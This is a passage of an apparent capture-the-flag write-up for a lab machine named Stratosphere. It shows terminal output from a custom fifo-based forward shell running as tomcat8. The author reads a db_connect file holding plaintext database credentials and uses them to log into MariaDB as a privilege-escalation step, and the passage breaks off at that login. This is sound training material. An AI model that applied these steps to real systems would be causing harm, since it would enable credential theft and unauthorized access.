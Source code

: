 ```
logs
policy
webapps
work

stratosphere> cd ..
stratosphere> pwd
/var/lib

stratosphere> upgrade
tomcat8@stratosphere:/var/lib$
/var/lib
tomcat8@stratosphere:/var/lib$

```

## Privesc: tomcat8 –> richard

### MiriaDB Database

We could have done this without the shell, but it was fun to build, and made enumeration much easier.

Using new shell, connect to the database observed on 3306 with creds we found in the file above:

```

root@kali# python3 ./stratosphere_shell.py
Session: 36734
[*] Setting up fifo shell on target
[*] Setting up read thread
stratosphere> upgrade
tomcat8@stratosphere:~$
pwd
/var/lib/tomcat8
tomcat8@stratosphere:~$
ls -l
total 16
lrwxrwxrwx 1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
-rw-r--r-- 1 root    root      68 Oct  2  2017 db_connect
drwxr-xr-x 2 tomcat8 tomcat8 4096 Sep  3  2017 lib
lrwxrwxrwx 1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
drwxr-xr-x 2 root    root    4096 May  2 11:58 policy
drwxrwxr-x 4 tomcat8 tomcat8 4096 Feb 10 21:12 webapps
lrwxrwxrwx 1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8
tomcat8@stratosphere:~$
cat db_connect
[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin
tomcat8@stratosphere:~$
mysql -u admin -p
mysql -u admin -p
Enter password:
admin

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 67
Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1

```